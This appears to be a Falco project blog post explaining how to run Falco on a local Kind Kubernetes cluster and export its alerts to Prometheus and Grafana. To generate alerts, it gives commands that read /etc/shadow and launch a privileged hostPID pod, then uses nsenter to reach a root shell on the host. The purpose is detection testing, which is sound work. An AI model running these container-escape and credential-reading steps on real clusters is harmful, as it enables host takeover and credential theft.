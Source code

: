 ```yaml
---
title: Falco on Kind with Prometheus and Grafana
date: 2020-03-19
author: Leonardo Grasso
---
```


Kind is a tool for running local Kubernetes clusters using Docker container "nodes", that may be used for local development or CI. It also offers a convenient and easy way to install Falco in a Kubernetes cluster and play with it locally. We will use Kind to show how to export Falco metrics to Prometheus and Grafana.

## Create a Kind cluster
Running Falco in a Kind cluster is easy, as explained in the [documentation](https://falco.org/docs/running/#running-falco-in-a-kind-cluster). 

If you want to use the kernel module, basically, you only have to mount `/dev`.

Note that it's not mandatory to mount the entire `/dev` path. Falco just needs access to some devices created by the kernel module:

```
$ ls -l /dev/falco*
cr-------- 1 root root 238, 0 Mar 12 16:04 /dev/falco0
cr-------- 1 root root 238, 1 Mar 12 16:04 /dev/falco1
cr-------- 1 root root 238, 2 Mar 12 16:04 /dev/falco2
cr-------- 1 root root 238, 3 Mar 12 16:04 /dev/falco3
cr-------- 1 root root 238, 4 Mar 12 16:04 /dev/falco4
cr-------- 1 root root 238, 5 Mar 12 16:04 /dev/falco5
cr-------- 1 root root 238, 6 Mar 12 16:04 /dev/falco6
cr-------- 1 root root 238, 7 Mar 12 16:04 /dev/falco7
```
As you can see, the kernel module is creating one device per CPU (8 in my case). These paths are all Falco needs.

## Certificates
To export metrics to Prometheus, we will use [falco-expoter](https://github.com/falcosecurity/falco-exporter) which connects to the [Falco gRPC output](https://falco.org/docs/grpc/). The Falco gRPC server works only with mutual TLS by design. Therefore, you also need valid certificate files to configure Falco and falco-exporter properly.

You can quickly generate cert materials using [falcoctl](https://github.com/falcosecurity/falcoctl): 
```
FALCOCTL_NAME=falco-grpc.default.svc.cluster.local FALCOCTL_PATH=/tmp/certs falcoctl install tls 
```
Otherwise you can manually generate them as explained [here](https://falco.org/docs/grpc/#certificates).

Note that in both cases, you have to make sure to set the correct CommonName. In this example, we are using the default hostname used by the Helm chart.

## Install Falco
The official [Falco Helm Chart](https://github.com/helm/charts/tree/master/stable/falco) is a straightforward way to deploy Falco. The chart adds Falco to all nodes in your cluster using a DaemonSet.

Be sure to include TLS cert material and enable the gRPC output:
```
helm install falco stable/falco \
    --set-file certs.server.key=/tmp/certs/server.key,certs.server.crt=/tmp/certs/server.crt,certs.ca.crt=/tmp/certs/ca.crt \
    --set falco.grpc.enabled=true,falco.grpcOutput.enabled=true
```

## Install falco-exporter
[falco-exporter](https://github.com/falcosecurity/falco-exporter) is the Prometheus metrics exporter for Falco output events. Again here, using [the provided Helm chart](https://github.com/falcosecurity/falco-exporter/blob/master/deploy/helm/falco-exporter) is the easiest way to deploy it.

So you only have to clone the [falco-exporter](https://github.com/falcosecurity/falco-exporter) repo and run helm install command:

```
$ git clone https://github.com/falcosecurity/falco-exporter.git
Cloning into 'falco-exporter'...
remote: Enumerating objects: 178, done.
remote: Counting objects: 100% (178/178), done.
remote: Compressing objects: 100% (103/103), done.
remote: Total 178 (delta 64), reused 129 (delta 38), pack-reused 0
Receiving objects: 100% (178/178), 693.25 KiB | 1.92 MiB/s, done.
Resolving deltas: 100% (64/64), done.

$ cd falco-exporter

$ helm install falco-exporter \
    --set-file certs.ca.crt=/tmp/certs/ca.crt,certs.client.key=/tmp/certs/client.key,certs.client.crt=/tmp/certs/client.crt \
    ./deploy/helm/falco-exporter
```

## Install Prometheus

Once Falco and the exporter are up and running, we can proceed by installing Prometheus:
```
helm install prom stable/prometheus
```

Then we have to wait for Prometheus to set up and run:
```
export POD_NAME=$(kubectl get pods --namespace default -l "app=prometheus,component=server" -o jsonpath="{.items[0].metadata.name}")
kubectl --namespace default port-forward $POD_NAME 9090
```
So we can open [http://localhost:9090/targets](http://localhost:9090/targets) and check that falco-exporter has been discovered by Prometheus.


## Install Grafana and the Falco dashboard

To deploy Grafana, just run:
```
helm install grafana stable/grafana
```
Then get your 'admin' user password by running:
```
kubectl get secret --namespace default grafana -o jsonpath="{.data.admin-password}" | base64 --decode ; echo
```
When Grafana is up and running, port forward the Grafana service:
```
kubectl port-forward service/grafana 3000:80
```
To log in to Grafana, open [http://127.0.0.1:3000/login](http://127.0.0.1:3000/login) and use the 'admin' user password you got above.

Now you can add the Prometheus endpoint (`http://prom-prometheus-server.default.svc.cluster.local`) to the Grafana data sources and finally go to [http://127.0.0.1:3000/dashboard/import](http://127.0.0.1:3000/dashboard/import) and import the Falco dashboard  by copy-paste the following dashboard URL:
```
https://grafana.com/grafana/dashboards/11914
```
Otherwise, you can use the provided [dashboard.json](https://github.com/falcosecurity/falco-exporter/blob/master/grafana/dashboard.json).

![Falco dashboard](https://github.com/falcosecurity/falco-exporter/raw/master/grafana/preview.png)

Now we can generate events to see the system in action!

## Generate events 

There are many ways to demonstrate a Falco rule has been violated, and if you have loaded the default Falco ruleset here are some fun things to try.

A simple one line example is to create an alert is to `touch` a file in a well known executable directory. Also, you can `cat` or `touch` files in other potentially vulnerable directories as well.

### Common one-liners

```bash
touch /usr/local/bin/example-violation
touch /usr/bin/example-violation
cat /etc/shadow
touch /etc/example-violation
```

You can find the default ruleset [here](https://github.com/falcosecurity/falco/blob/master/rules/falco_rules.yaml). 

## Fun with privileged mode 

You can see the demo that [Kris Nóva gave at FOSDEM](https://www.youtube.com/watch?v=VrtkKgfJ3RI) and find the function `shell()` that she used defined below.


```bash
function shell () {
  kubectl run shell --restart=Never -it --image krisnova/hack:latest \
  --rm --attach \
  --overrides \
        '{
          "spec":{
            "hostPID": true,
            "containers":[{
              "name":"scary",
              "image": "krisnova/hack:latest",
	      "imagePullPolicy": "Always",
              "stdin": true,
              "tty": true,
              "command":["/bin/bash"],
	      "nodeSelector":{
		"dedicated":"master" 
	      },
              "securityContext":{
                "privileged":true
              }
            }]
          }
        }'
}
```

You can paste this into a new file `shell.sh` and source the file.

```bash
source shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```
[user@user]$ shell
If you don't see a command prompt, try pressing enter.
root@shell:/# nsenter -t 1 -m -u -i -n bash
root@ip-1-2-3-4:/# 
```

Doing this takes advantage of a well known security exploit in Kubernetes, and you can find the Falco alerts rendered in Prometheus/Grafana. 


## Falco events generator 

You can find more information on generating sample events in [the official documentation](https://falco.org/docs/event-sources/sample-events/)

For a quick example, you can run the following command to begin generating events

```bash
docker run -it --rm falcosecurity/falco-event-generator event_generator
```